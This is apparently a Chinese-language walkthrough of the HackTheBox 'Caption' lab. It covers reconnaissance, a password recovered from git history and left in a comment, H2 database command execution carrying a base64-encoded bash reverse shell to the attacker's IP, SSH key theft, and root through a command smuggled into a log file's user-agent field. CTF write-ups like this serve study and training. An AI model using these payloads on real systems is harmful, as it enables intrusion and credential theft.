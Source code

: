 # Caption

> 本机 IP: 11.11.11.11
>
> 目标 IP: 11.11.11.12
>
> 参考 [wp](https://loghmariala.github.io/posts/Caption/)

```sh
$ nmap -sSVC -p- 11.11.11.12
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu
80/tcp   open  http       Werkzeug/3.0.1 Python/3.10.12
|_http-server-header: Werkzeug/3.0.1 Python/3.10.12
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions:
|     HTTP/1.1 301 Moved Permanently
|     content-length: 0
|     location: http://caption.htb
|_    connection: close
|_http-title: Caption Portal Login
8080/tcp open  http-proxy
|_http-title: GitBucket
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 5916
|     <!DOCTYPE html>
|     <html prefix="og: http://ogp.me/ns#" lang="en">
|     <head>
|     <meta charset="UTF-8" />
|     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=5.0" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <title>Error</title>
|     <meta property="og:title" content="Error" />
|     <meta property="og:type" content="object" />
|     <meta property="og:url" content="http://11.11.11.12:8080/nice%20ports%2C/Tri%6Eity.txt%2ebak" />
|     <meta property="og:image" content="http://11.11.11.12:8080/assets/common/images/gitbucket_ogp.png" />
...

$ vi /etc/hosts
[+] 11.11.11.12 caption.htb
```

访问 http://caption.htb/, 一个登录界面, 无法登录

访问 http://caption.htb:8080/, 为 GitBucket, 有两个仓库 Logservice 和 Caption-Portal; root:root 尝试登录成功

git clone 仓库 Caption-Portal, 查找 git hash 为 0e3ba... 提交中, config/haproxy/haproxy.cfg 有修改痕迹, 其中有删除字段:

<!-- ```cfg
userlist AuthUsers
        user margo insecure-password vFr&cS2#0!
``` -->

```cfg
userlist AuthUsers
        user margo insecure-password ⬛⬛⬛
```

使用 margo:⬛⬛⬛ 登录 http://caption.htb/ 成功, 但未发现利用点

Gitbucket 设置界面查找有 Database viewer 功能, 可执行 SQL 语句, 根据报错信息得知为 H2 数据库

<!-- 未执行, 看wp的

[H2 数据库漏洞](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2)

查看版本`SELECT H2VERSION() FROM DUAL` -->

```sql
-- Gitbacket 的 Database viewer 中执行SQL语句可远程执行命令

-- 这个好像不需要?
CREATE TABLE TEST (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL
);

-- 本机执行 nc -lvvp 2333

-- bash -i >& /dev/tcp/11.11.11.11/2333
-- base64 编码为
-- YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMS4xMS4xMi8yMzMzIDA+JjE=
CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMS4xMS4xMi8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}");';
```

或使用 [wp](https://loghmariala.github.io/posts/Caption/) 方法

```sql
-- 创建函数
CREATE ALIAS RUNEXEC AS $$
String shellexec(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}
$$;

-- id
CALL RUNEXEC('id')

-- 得到命令执行结果
org.h2.jdbc.JdbcSQLDataException:Data conversion error converting"uid=1000(margo) gid=1000(margo) groups=1000(margo)";SQL statement: CALL RUNEXEC('id'); [22018-199]

-- 获取ssh密钥
CALL RUNEXEC('cat /home/margo/.ssh/id_ecdsa')

org.h2.jdbc.JdbcSQLDataException:Data conversion error converting"-----BEGIN OPENSSH PRIVATE KEY----- ⬛⬛⬛ -----END OPENSSH PRIVATE KEY-----";SQL statement: CALL RUNEXEC('cat /home/margo/.ssh/id_ecdsa'); [22018-199]
```

本机创建文件`id_ecdsa`并将密钥复制其中

```sh
$ ssh -i id_ecdsa margo@caption.htb

margo@caption:~$ ls
... gitbucket.war user.txt
```

## Privilege Escalation

<!-- 以下均参考wp -->

使用 Thrift 客户端与目标计算机上运行的名为 LogService 的服务进行交互, 利用 LogService 中的漏洞来实现 RCE 并提权

克隆 Gitbucket 中的 Logservice 仓库, 使用 Thrift 从该文件生成 Python 客户端代码

```sh
margo@caption:~$ git clone http://caption.htb:8080/git/root/Logservice.git

margo@caption:~$ cd Logservice/

margo@caption:~/Logservice$ ls
... gen-go  log_service.thrift  server.go

margo@caption:~/Logservice$ thrift --gen py log_service.thrift

margo@caption:~/Logservice$ ls
... gen-py  log_service.thrift

# 在 /tmp 中创建恶意log文件
margo@caption:~/Logservice$ cd /tmp

margo@caption:~/Logservice$ vi malicious.log
[+] 127.0.0.1 "user-agent":"'; chmod +s /bin/bash #"
```

将文件夹 gen-py 复制到本机, 在 gen-py 下使用 python 脚本创建客户端

```py
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"

        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)

    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```

本机执行 python 脚本

```sh
margo@caption:~/Logservice$ ls -la /bin/bash
-rwsr-sr-x 1 root root ... /bin/bash

margo@caption:~/Logservice$ /bin/bash -p

bash-5.1# id
uid=1000(margo) gid=1000(margo) euid=0(root) egid=0(root) groups=0(root),1000(margo)

bash-5.1# whoami
root

bash-5.1# ls /root
... root.txt
```
